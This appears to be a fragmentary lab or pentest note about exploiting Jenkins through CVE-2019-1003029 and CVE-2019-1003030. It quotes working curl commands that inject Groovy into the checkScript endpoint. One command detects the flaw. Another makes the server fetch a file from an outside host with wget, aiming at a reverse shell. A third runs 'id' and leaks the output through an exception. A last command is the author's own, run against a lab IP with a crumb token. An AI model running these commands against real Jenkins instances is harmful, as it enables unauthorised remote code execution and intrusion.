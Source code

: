 One of the links that i found led to this jenkins page referencing `CVE-2019-1003030`
-  https://github.com/gquere/pwn_jenkins


Notes:
Originally I overlooked this after not getting anywhere with it. after getting the error shown in 


## CheckScript RCE in Jenkins (CVE-2019-1003029, CVE-2019-1003030)

Check if a Jenkins instance is vulnerable (needs Overall/Read permissions) with some Groovy:

```shell
curl -k -4 -X POST "https://example.com/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript/" -d "sandbox=True" -d 'value=class abcd{abcd(){sleep(5000)}}'
```

***Execute arbitraRy bash commands:***

```shell
curl -k -4 -X POST "https://example.com/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript/" -d "sandbox=True" -d 'value=class abcd{abcd(){"wget xx.xx.xx.xx/bla.txt".execute()}}'
```

If you don't immediately get a reverse shell you can debug by throwing an exception:

```shell
curl -k -4 -X POST "https://example.com/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript/" -d "sandbox=True" -d 'value=class abcd{abcd(){def proc="id".execute();def os=new StringBuffer();proc.waitForProcessOutput(os, System.err);throw new Exception(os.toString())}}'
```



curl -k -4 -X POST "http://10.10.110.102:8080/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript/" -d "sandbox=True" -d 'value=class abcd{abcd(){"./c.j
ava".execute()}}' -H 'Jenkins-Crumb: 7dbe87878c99112eef8e97022ccc7ea4'  